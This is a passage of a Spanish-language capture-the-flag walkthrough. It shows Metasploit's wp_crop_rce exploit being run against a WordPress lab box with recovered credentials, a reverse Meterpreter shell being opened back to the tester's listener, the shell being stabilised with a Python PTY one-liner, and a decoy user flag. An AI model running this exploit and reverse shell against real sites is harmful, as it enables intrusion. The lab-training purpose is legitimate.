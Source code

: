
# Paso 10: Explotación de WordPress y Obtención de Acceso Inicial

Con las credenciales (`kwheel:cutiepie1`) y el módulo de Metasploit listo, procedemos a ejecutar el *exploit* **`exploit/multi/http/wp_crop_rce`** para obtener una *reverse shell*.

## 10.1 Configuración y Ejecución del Exploit

Configuramos las opciones necesarias en el módulo de Metasploit:

```bash
msf exploit(multi/http/wp_crop_rce) > set RHOSTS 10.10.30.133
msf exploit(multi/http/wp_crop_rce) > set LHOST 10.8.24.253 
msf exploit(multi/http/wp_crop_rce) > set LPORT 1234
msf exploit(multi/http/wp_crop_rce) > set USERNAME kwheel
msf exploit(multi/http/wp_crop_rce) > set PASSWORD cutiepie1
msf exploit(multi/http/wp_crop_rce) > run
````
Resultado: El exploit se ejecuta con éxito, autenticándose con el usuario kwheel, subiendo la carga maliciosa (payload) y abriendo una sesión Meterpreter.

10.2 Estabilización de la Shell

Inmediatamente después de obtener la sesión Meterpreter, obtenemos una shell de Linux y la estabilizamos para facilitar la navegación y ejecución de comandos:

````
bash
meterpreter > shell
Process 24303 created.
Channel 6 created.
python -c 'import pty;pty.spawn("/bin/bash")'
````
Hemos obtenido acceso inicial como el usuario del servidor web www-data.

10.3 Búsqueda de la Primera Flag (user.txt)

Navegamos a los directorios del sistema en busca de la flag del usuario (user.txt). Localizamos el directorio personal de bjoel (Billy Joel) y encontramos el archivo:

````
bash
www-data@blog:/home$ cd bjoel
www-data@blog:/home/bjoel$ ls
Billy_Joel_Termination_May20-2020.pdf  user.txt
www-data@blog:/home/bjoel$ cat user.txt
"ou won't find what you're looking for here."

TRY HARDER
````
Resultado: El archivo user.txt es una trampa. La primera flag no se encuentra aquí.

Conclusión del paso:
